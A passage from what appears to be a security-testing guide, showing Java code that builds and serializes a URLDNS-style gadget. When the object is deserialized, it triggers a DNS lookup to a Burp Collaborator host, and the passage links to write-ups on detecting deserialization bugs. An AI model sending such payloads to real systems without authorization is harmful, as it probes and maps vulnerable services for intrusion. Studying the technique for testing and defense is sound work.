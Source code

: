 ```java
//Serialize the constructed payload and write it to the file
File f = new File(file);
ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
out.writeObject(instance);
out.flush();
out.close();
}
public static void payloadTest(String file) throws Exception {
//Read the written payload and deserialize it
ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
Object obj = in.readObject();
System.out.println(obj);
in.close();
}

public static void main(final String[] args) throws Exception {
String url = "http://3tx71wjbze3ihjqej2tjw7284zapye.burpcollaborator.net";
HashMap ht = new HashMap(); // HashMap that will contain the URL
URLStreamHandler handler = new SilentURLStreamHandler();
URL u = new URL(null, url, handler); // URL to use as the Key
ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

// During the put above, the URL's hashCode is calculated and cached.
// This resets that so the next time hashCode is called a DNS lookup will be triggered.
final Field field = u.getClass().getDeclaredField("hashCode");
field.setAccessible(true);
field.set(u, -1);

//Test the payloads
GeneratePayload(ht, "C:\\Users\\Public\\payload.serial");
}
}


class SilentURLStreamHandler extends URLStreamHandler {

protected URLConnection openConnection(URL u) throws IOException {
return null;
}

protected synchronized InetAddress getHostAddress(URL u) {
return null;
}
}
```
### More information

* [https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/](https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/)
* In the original idea thee commons collections payload was changed to perform a DNS query, this was less reliable that the proposed method, but this is the post: [https://www.gosecure.net/blog/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/](https://www.gosecure.net/blog/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/)
